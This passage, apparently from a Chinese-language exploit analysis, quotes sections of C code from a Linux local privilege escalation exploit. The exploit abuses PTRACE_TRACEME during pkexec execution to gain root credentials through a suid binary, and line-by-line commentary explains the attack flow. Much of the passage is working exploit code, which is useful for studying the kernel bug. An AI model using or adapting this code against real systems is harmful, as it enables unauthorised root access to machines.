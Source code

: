 ```c
 80       char buf[1000];
 81       ssize_t buflen = SAFE(pread(proc_fd, buf, sizeof(buf)-1, 0));
 82       buf[buflen] = '\0';
 83       if (strstr(buf, needle)) break;
 84     }
 85 
 86     /*
 87      * this is where the bug is triggered.
 88      * while our parent is in the middle of pkexec, we force it to become our
 89      * tracer, with pkexec's creds as ptracer_cred.
 90      */
 91     SAFE(ptrace(PTRACE_TRACEME, 0, NULL, NULL));
 92 
 93     /*
 94      * now we execute passwd. because the ptrace relationship is considered to
 95      * be privileged, this is a proper suid execution despite the attached
 96      * tracer, not a degraded one.
 97      * at the end of execve(), this process receives a SIGTRAP from ptrace.
 98      */
 99     puts("executing passwd");
100     execl("/usr/bin/passwd", "passwd", NULL);
101     err(1, "execl passwd");
102   }
103 
104   SAFE(dup2(self_fd, 0));
105   SAFE(dup2(block_pipe[1], 1));
106 
107   struct passwd *pw = getpwuid(getuid());
108   if (pw == NULL) err(1, "getpwuid");
109 
110   middle_success = 1;
111   execl("/tmp/fakepkexec", "fakepkexec", "--user", pw->pw_name, NULL);
112   middle_success = 0;
113   err(1, "execl pkexec");
114 }

```

行 70, 调用 fork 生成孙进程（也就是 task C）

然后行 111, task B 运行 fakepkexec 让自己提权再降权

然后看行 76 ~ 84, task C 检测到 task B 的 euid 变成 0 之后， 会执行行 91 进行 PTRACE_TRACEME 操作获取 root 的 ptracer_cred, 然后紧接着 task C 马上运行 execl 执行一个  suid binary 让自己的 euid 变成 0

```c

190   /*
191    * wait for our child to go through both execve() calls (first pkexec, then
192    * the executable permitted by polkit policy).
193    */
194   while (1) {
195     int fd = open(tprintf("/proc/%d/comm", midpid), O_RDONLY);
196     char buf[16];
197     int buflen = SAFE(read(fd, buf, sizeof(buf)-1));
198     buf[buflen] = '\0';
199     *strchrnul(buf, '\n') = '\0';
200     if (strncmp(buf, basename(helper_path), 15) == 0)
201       break;
202     usleep(100000);
203   }
204 
205   /*
206    * our child should have gone through both the privileged execve() and the
207    * following execve() here
```